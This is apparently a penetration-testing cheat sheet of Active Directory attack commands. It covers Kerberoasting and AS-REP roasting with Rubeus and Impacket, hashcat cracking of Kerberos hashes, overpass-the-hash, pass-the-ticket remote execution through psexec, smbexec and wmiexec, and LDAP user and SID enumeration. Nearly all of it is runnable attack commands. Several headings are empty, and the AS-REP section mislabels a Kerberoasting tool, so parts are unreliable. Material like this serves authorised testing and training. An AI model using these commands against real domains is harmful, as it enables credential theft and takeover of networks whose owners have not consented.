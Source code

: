  Kerberoasting with Rubeus (install on Windows host in domain) 
 
    rubeus.exe kerberoast 
 
Crack passwords with hashcat 

    hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/ADPass.txt
    13100: kerberos 5, 0: straight attack mode

### AS-REP Roasting with Rubeus and Impacket
Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
     

ASREPRoast with Impacket:

    impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
    impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

ASREP Roast with Rubeus:

### Golden / Silver Ticket Attacks: 

### Overpass The Hash/Pass The Key (PTK):
Impacket 

    python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
    python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
    python3 getTGT.py <domain_name>/<user_name>:[password]

### Pass the Ticket 
Using TGT key to execute remote commands from the following impacket scripts:

    python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

### Skeleton Key Attacks using Mimikatz 

## LDAP (Port 636)
Anonymous Credential LDAP Dumping: 

    ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

    GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

    /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
